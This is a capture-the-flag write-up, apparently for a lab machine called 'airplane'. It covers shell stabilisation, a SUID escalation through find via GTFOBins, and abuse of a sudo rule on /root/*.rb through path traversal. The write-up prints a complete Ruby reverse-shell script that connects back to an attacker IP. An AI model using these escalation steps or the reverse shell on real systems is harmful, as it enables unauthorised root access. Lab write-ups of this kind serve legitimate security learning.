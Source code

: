 We've got it! Time to stabilize the shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
$
```

### Privilege escalation 1 - getting `carlos` user
After running this command
```
$ find / -type f -perm -04000 -ls 2>/dev/null
```

We see that we can run `/usr/bin/find` as `carlos`

Quick trip to [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) gives us
```
$ /usr/bin/find . -exec /bin/sh -p \; -quit
$ whoami
carlos
```

And we're `carlos` -  get user flag
```
$ cat /home/carlos/user.txt
```

I couldn't really stabilize it with python, so I just uploaded my public ssh key and loged in via SSH

Let's go for root now!

### Privilege escalation 2 - gettting `root` 

What will `sudo -l` give us?
```
$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```

We can run anything placed inside `/root` folder which has `.rb` extentions with `ruby`

So, how about we utilize Path Traversal once again and get the shell that way

First in `/tmp` create a file called `shell.rb`

```rb
#!/usr/bin/env ruby
# syscall 33 = dup2 on 64-bit Linux
# syscall 63 = dup2 on 32-bit Linux
# test with nc -lvp 1337 

require 'socket'

s = Socket.new 2,1
s.connect Socket.sockaddr_in 1337, '[YOUR IP]'

[0,1,2].each { |fd| syscall 33, s.fileno, fd }
exec '/bin/sh -i'
```
[Reverse shell comes from here](https://gist.github.com/gr33n7007h/c8cba38c5a4a59905f62233b36882325)
